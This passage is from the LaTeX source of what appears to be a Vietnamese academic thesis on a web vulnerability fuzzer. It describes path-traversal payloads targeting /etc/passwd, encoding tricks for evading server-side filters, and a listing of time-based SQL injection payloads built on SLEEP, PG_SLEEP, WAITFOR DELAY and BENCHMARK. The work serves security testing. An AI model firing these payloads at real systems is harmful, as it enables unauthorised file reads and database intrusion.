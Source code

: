 \begin{itemize}
  \item Đối với các payload \acrshort{lfi}, chúng tôi thu thập 8 payload mẫu với số lượng các chuỗi ``../'' tăng dần, nhằm tăng độ sâu của đường dẫn để tiếp cận được tập tin \texttt{/etc/passwd} của máy chủ. Từ 8 payload này, chúng tôi áp dụng các kĩ thuật làm rối riêng biệt để sinh ra 264 payload khác. Các kĩ thuật này bao gồm encode các chuỗi kí tự ``../'', ``..\textbackslash'' và ``..\textbackslash /'' theo các tập kí tự (charset) ít phổ biến như ``\texttt{..\%c0\%af}'', ``\texttt{..\%252f}'', ``\texttt{\%\%32\%65}'', ``\texttt{..\%\%32\%66}'',  ``\texttt{..\%25c1\%259c}'',... để vượt qua một số kĩ thuật lọc và làm sạch dữ liệu ở phía server-side của máy chủ ứng dụng web mục tiêu.
  \item Đối với các payload time-based \acrshort{sqli}, chúng tôi sử dụng các payload chứa hai loại hàm chính để hoãn thời gian thực hiện request. Cụ thể là hàm \texttt{sleep} (đối với MySQL, tương tự là \texttt{pg\_sleep} đối với PostgreSQL và \texttt{waitfor delay}, \texttt{waitfor time} đối với Microsoft SQL Server) và hàm \\\texttt{BENCHMARK(10000000,MD5('Y4T0G4M11337'))} để kéo dài thời gian thực hiện request đối với các ứng dụng web mắc lỗi này. Bên cạnh đó, với mỗi payload gốc, chúng tôi áp dụng thêm nhiều cách thức đóng ngoặc, chú thích để tránh gặp lỗi cú pháp khi thực thi đoạn mã SQL ở phía máy chủ, ví dụ một số payload trong Đoạn mã \ref{lst:example-sqli-payloads} sau.
\end{itemize}
\begin{lstlisting}[language={}, label={lst:example-sqli-payloads}, caption={Ví dụ một số payload kiểm thử lỗ hổng time-based \acrshort{sqli}},captionpos=b,basicstyle=\ttfamily]
') OR 1337 LIKE BENCHMARK(10000,MD5('Y4T0G4M11337'))--+-
OR ELT(1337 LIKE 1337,SLEEP(10))--+-
' ,(SELECT (CASE WHEN (1337 LIKE 1337) THEN (SELECT 1337 FROM PG_SLEEP(10)) ELSE 1/(SELECT 0) END)) AND '
' ,(SELECT (CASE WHEN (1337 LIKE 1337) THEN SLEEP(10) ELSE 1337 END))--+-
' RLIKE SLEEP(10)--+-
' (SELECT * FROM (SELECT(SLEEP(10)))Y4T0G4M11337)--+-
' WAITFOR DELAY '0:0:10'--+-
1)) or pg_sleep(*index*)--
\end{lstlisting}
Cụ thể cấu hình được áp dụng trong ứng dụng và biểu thức chính quy áp dụng trong trường hợp phát hiện lỗi \acrshort{lfi} được thể hiện ở Đoạn mã \ref{lst:default-fuzz-config} dưới đây.
